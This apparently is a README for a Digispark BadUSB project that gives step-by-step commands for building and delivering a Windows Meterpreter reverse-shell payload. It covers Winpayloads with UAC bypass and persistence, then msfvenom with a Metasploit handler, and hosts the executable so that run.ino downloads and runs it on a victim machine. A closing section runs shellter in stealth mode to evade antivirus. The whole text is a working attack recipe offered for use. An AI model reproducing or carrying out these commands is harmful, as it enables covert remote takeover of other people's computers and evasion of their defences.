 ## Instructions To Creating the Payload to be executed by run.ino:

 ### METHOD 1 On the host machine(Linux): Using Winpayloads 
   ~ https://github.com/nccgroup/Winpayloads/blob/master/README.md ~
   #### Installation: 
        1. git clone https://github.com/nccgroup/Winpayloads.git
        2. cd Winpayloads  
        3. ./setup.sh
        
   #### RUN: 
        1. ./WinPayLoads.py
        2. 2 (to run Windows Meterpreter Reverse Shell [uacbypass, persistence, allchecks]  )
        3. Enter port and ip or simply press Enter for defaults
        4. y (for UAC Bypass)
        5. enter victim windows version
        6. y to upload to local webserver
        7. That's it!! update run.ino with the url to the executable eg: http://192.168.0.24:8000/fgxjdqzp.exe, then compile and load to your digispark

  ### On the host machine (linux): // if above method doesn't work. (note: change 192.168.0.24 to your ip, and 8080 to the port you desire)
   1.  msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows LHOST=192.168.0.24 LPORT=8080 -f exe > shell.exe   
   2.  cp shell.exe /var/www/html
   3.  *OPTIONAL* go to Avoiding AntiVirus
   4.  service apache2 start
   5.  msfconsole
   6.  use exploit/multi/handler
   7.  set PAYLOAD windows/meterpreter/reverse_tcp
   8.  set LHOST 192.168.0.24
   9.  set LPORT 8080
   10.  exploit
   
   ### Avoiding Anti Virus
    1. sudo apt-get install shellter [ You might be required to install wine32 first (dpkg --add-architecture i386 && apt-get update && apt-get install wine32) ]
    2. shellter
    3. A (to select AUTO)
    4. /var/www/htmlEnter path to your executable
    5. Y (to enter stealth mode)
    6. Enter LHOST and LPORT
    

